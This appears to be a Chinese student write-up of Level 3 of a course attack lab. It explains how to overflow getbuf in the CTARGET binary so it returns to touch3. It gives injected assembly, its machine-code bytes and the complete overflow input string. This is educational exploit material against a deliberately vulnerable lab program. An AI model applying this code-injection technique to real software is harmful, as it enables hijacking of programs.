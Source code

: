 ### Level 3

#### 要求

针对程序 CTARGET， 修改函数 test 调用 getbuf 的返回地址，使其返回 touch3 函数而非 test。

```c
void touch3(char *sval) {
    vlevel = 3;		/* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

其中，touch3 会调用函数 hexmatch 以比较输入字符串是否和 cookie 的字符串相同，新的函数会使用并覆盖栈上的数据。

#### 做法

在该实验中需要将 cookie 的字符串保存到栈上，并将其起始地址保存到 %rdi 上。

解法和 Level 2 类似，但要注意一点，touch3 中的 hexmatch 会使用栈而破坏输入的字节序列，导致 cookie 的字符串序列无效。

为了避免上述情况发生，与新函数执行相同，先开辟一段新的栈区以保护输入序列：

```assembly
lea -24(%rsp), %rdi			# cookie 字符串地址
sub $0x30, %rsp				# 开辟栈区
push $0x4018fa				# touch3 地址
ret
```

使用 `gcc -c exec.s` 和 `objdump -d exec.o` 查看指令字节序列：

```
exec.o:     file format elf64-x86-64

Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 8d 7c 24 e8          lea    -0x18(%rsp),%rdi
   5:   48 83 ec 30             sub    $0x30,%rsp
   9:   68 fa 18 40 00          pushq  $0x4018fa
   e:   c3                      retq
```

CTARGET 的输入字节序列：

```
48 8d 7c 24 e8 48 83 ec
30 68 fa 18 40 00 c3 00
00 00 00 00 00 00 00 00
35 39 62 39 39 37 66 61
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```
